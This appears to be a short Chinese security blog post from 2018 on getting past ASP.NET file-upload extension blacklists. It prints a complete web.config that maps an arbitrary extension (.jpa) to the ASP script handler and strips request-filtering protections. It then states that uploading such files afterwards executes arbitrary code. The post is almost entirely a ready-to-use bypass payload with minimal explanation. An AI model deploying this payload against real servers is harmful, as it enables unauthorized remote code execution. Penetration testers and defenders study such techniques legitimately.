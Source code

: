 ```yaml
---
categories: Web安全
date: "2018-11-04T00:00:00Z"
description: tips
title: ASP.NET 文件上传黑名单解决办法
url: /archivers/2018-11-04/1
---
```




## ASP.NET 文件上传黑名单解决办法


来源：https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

同过上传web.config配置文件可以使得任意扩展名的文件以脚本代码运行

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.jpa" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".jpa" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
```

上传完成web.config到Web目录下后，可以再上传`*.jpa`的扩展名文件达到执行任意代码的目的。